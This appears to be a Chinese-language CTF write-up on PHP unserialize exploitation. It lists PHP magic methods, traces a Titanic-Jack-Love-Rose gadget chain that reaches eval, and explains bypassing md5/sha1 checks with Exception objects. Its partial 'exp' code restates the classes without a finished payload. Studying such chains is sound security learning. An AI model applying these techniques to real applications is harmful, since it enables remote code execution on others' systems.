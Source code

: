 * ### 知识扩展1：php魔术方法

```
__construct() -> 在创建类对象时自动调用
__destruct() -> 在销毁类对象时自动调用（在php结束时自动销毁类对象）
__wakeup() -> 在反序列化类对象时自动调用
__set($name, $value) -> 在尝试为类对象中无法访问的变量进行赋值时调用，$name为相应的无法访问的变量，$value为相应的将要为该变量赋的值
__get($name) -> 在尝试访问类对象中无法访问的变量时进行调用，$name为相应的无法访问的变量
__toString() -> 在尝试输出类对象时调用的函数，直接将对象转化为String类型
__call() -> 在尝试从外部调用一个私有类函数时触发的方法
__invoke() -> 在尝试用函数调用方式调用类对象时触发的方法
```

由于源码可知，需要通过`Titanic->Jack->Love->Rose`的调用方式进行调用，通过`Titanic`类中的`people->action`触发`Jack`类中的`__set`方法，从而通过调用`action()`触发`Love`类中的`__call`方法，以函数调用方式调用`Rose`类对象，触发`Rose`类对象中的`__invoke`方法，从而到达命令执行函数`eval`。

* ### 知识扩展2：通过php原生类`Exception`绕过md5与sha1检测
在php中，当对两个`Exception`类对象进行md5和sha1加密时，由于`Exception`类中的`__toString`魔术方法，当加密时仅会加密其message部分，而后面的部分会被忽略，因而可以通过该技巧绕过md5和sha1加密。

exp：

```
<?php

class Jack
{
    private $action=1;


    function __set($a, $b)
    {
        $b->$a();

    }

}

class Love {

    public $var;
    function __call($a,$b)
    {
        $rose = $this->var;
        call_user_func($rose);
    }

    private function action(){
        echo "jack love rose";
    }

}
class Titanic{
    public $people;
    public $ship;
    function __destruct(){

        $this->people->action=$this->ship;
    }
}
class Rose{
    public $var1;
    public $var2;
    function __invoke(){
        }
}
```